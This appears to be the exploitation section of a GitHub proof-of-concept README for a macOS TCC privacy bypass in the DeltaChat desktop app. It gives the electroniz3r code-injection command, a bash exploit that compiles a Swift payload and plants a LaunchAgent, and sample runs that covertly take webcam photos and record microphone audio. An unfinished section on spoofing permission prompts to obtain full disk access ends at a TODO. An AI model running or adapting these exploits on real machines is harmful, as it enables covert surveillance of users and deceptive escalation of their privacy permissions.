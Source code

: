 # Exploitation

Showing a few ways to exploit this vulnerability, also showing a "new" vulnerability/technique with TCC that _can_ be useful for tricking a user for more TCC rights, e.g. full disk access or any other TCC rights. 

>**Note:** When running this proof-of-concept, the Terminal app does not need a prompt for camera access. This is because the camera permission is granted to DeltaChat, and the injected code inherits those permissions, effectively bypassing macOS TCC restrictions.

### Automated 

Run the following from Terminal using [electroniz3r](https://github.com/r3ggi/electroniz3r)

```sh
electroniz3r inject /Applications/DeltaChat.app/ --predefined-script takeSelfie
```

Sample output:
```sh
/Applications/DeltaChat.app/ started the debug WebSocket server
The webSocketDebuggerUrl is: ws://127.0.0.1:13337/56264727-4473-4393-b712-7e24c65a1c71
Check /tmp/selfie.jpg
```

Confirm the result by running:
```sh
open /tmp/selfie.jpg
```

<img width="1502" height="470" alt="poc-delta" src="https://github.com/user-attachments/assets/6bcc6604-8707-4924-89c8-2d8985aab39e" />

A picture is taken using the system webcam, without Terminal having any camera access this demonstrates a successful TCC bypass.

### Bash Script 

Clone the repository and then execute the bash script, the bash script autoexploits the TCC Bypass, then you can choose between exploiting camera or microphone TCC bypass. 

Execute bash script:
```sh
bash full_exploit.sh
# or
chmod +x full_exploit.sh && ./full_exploit.sh
```

Example output camera: (auto opens the selfie)
```sh
kunpeeks@MacBook-Pro-van-Kun % bash exploit.sh 
[*] Choose the TCC resource to access:
    1. Camera (take selfie)
    2. Microphone (record 5 sec)
[?] Enter choice (1 or 2): 1
[*] Generating Swift payload...
[*] Mode: Camera (selfie)
[*] Compiling Swift payload to /Users/kunpeeks/Desktop/tcc_payload
[*] Writing LaunchAgent to /Users/kunpeeks/Library/LaunchAgents/com.deltachat.tcc.bypass.plist
[*] Triggering DeltaChat exploit via launchctl...
[*] Waiting for payload to complete...
[+] Selfie taken! Opening...
```

Example output microphone: (does not auto open, i'm too lazy too fix it)
```sh
kunpeeks@MacBook-Pro-van-Kun 2 % bash exploit.sh
[*] Choose the TCC resource to access:
    1. Camera (take selfie)
    2. Microphone (record 5 sec)
[?] Enter choice (1 or 2): 2
[*] Generating Swift payload...
[*] Mode: Microphone (5 sec recording)
[*] Compiling Swift payload to /Users/kunpeeks/Desktop/tcc_payload
[*] Writing LaunchAgent to /Users/kunpeeks/Library/LaunchAgents/com.deltachat.tcc.bypass.plist
[*] Triggering DeltaChat exploit via launchctl...
[*] Waiting for payload to complete...
[+] Audio recording complete! Playing...
Error: AudioFileOpen failed ('dta?')
```

The recorded 5s audio file is located in `recording.m4a`. 



### Prompt Spoofing

This payload triggers a macOS TCC prompt for disk access. But instead of showing the request as coming from the Terminal (which executed the code), the system displays:

TODO: xxx





